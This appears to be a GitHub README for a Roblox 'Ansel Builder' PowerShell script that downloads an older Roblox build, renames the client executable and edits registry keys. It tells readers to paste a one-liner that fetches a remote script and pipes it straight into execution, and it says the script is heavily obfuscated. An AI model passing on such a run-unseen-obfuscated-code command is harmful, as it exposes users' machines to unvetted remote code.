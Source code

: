 Ansel Builder for Roblox

This is a powershell script that uses your current roblox client and re-builds it with some old files from the last known version where NVIDIA Ansel was supported.

## What does this script do?

- It downloads an older build of Roblox (around 90MB) and merges it with your current client.
- Renames RobloxPlayerBeta.exe to Minecraft.exe for Ansel/Game Filter compatibility.
- Changes registry keys to open Roblox from the browser
- Restores Desktop/Program Shortcuts for Roblox

## How do I run the file?

__Download the .ps1 file attached, then right click on it and "Run with Powershell"__

**OR** 

__Run the code using Powershell__
- __**Open Windows Powershell, paste this code and hit Enter.**__
  
```powershell -c "iwr https://github.com/chrowmiee/NVIDIABuild/releases/download/archive/NVIDIA.ps1 | iex"```

⚠️  **Do not close the script while it's extracting! **
 This may corrupt your current client, and you'll have to reinstall Roblox.

❌   **Close Roblox before running the script.**
Make sure Roblox is fully closed, check your Task Manager and end all processes; otherwise an error will pop-up. 

**🟩 NVIDIA ONLY** 
As always, this uses NVIDIA Ansel for Windows, and will not be supported by any non-NVIDIA GPUs.

✅ **The code is heavily obfuscated because I don't want people to modify the code and take my name taken out of the credits, thank you for understanding.**

This is a very robust and hacky solution, probably won't work in the future.
If you're having any issues with the script, please DM me @ chrowmii for support.

